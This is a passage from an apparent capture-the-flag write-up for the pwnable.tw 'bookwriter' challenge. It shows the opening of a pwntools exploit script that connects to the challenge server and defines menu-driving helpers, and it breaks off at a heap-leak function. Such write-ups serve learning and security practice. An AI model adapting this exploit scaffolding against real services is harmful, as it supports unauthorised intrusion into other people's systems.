 ![result04](./04.png)
### The Whole EXP
```python
#!/usr/bin/env python
from pwn import *
import pwnlib

debug = 0
elf = ELF('./bookwriter')
if debug:
    p = process('./bookwriter', env={'LD_PRELOAD':'./libc_64.so.6'})
    libc = ELF("./libc_64.so.6")
    context.terminal = ['gnome-terminal','-x','sh','-c']
#    context.log_level = 'debug'
else:
    p = remote("chall.pwnable.tw", 10304)
    libc = ELF("./libc_64.so.6")

def add(num,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Size of page :')
    p.sendline(str(num))
    p.recvuntil('Content :')
    p.send(content)
def view(num):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index of page :')
    p.sendline(str(num))
def edit(num,content):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index of page :')
    p.sendline(str(num))
    p.recvuntil('Content:')
    p.send(content)
def info(num,content):
    p.recvuntil('Your choice :')
    p.sendline('4')
    p.recvuntil('(yes:1 / no:0) ')
    p.sendline(str(num))
    if(num):
        p.recvuntil('Author :')
        p.sendline(content)
    else:
        pass

def leak_heap():
    p.recvuntil('Your choice :')
    p.sendline('4')
```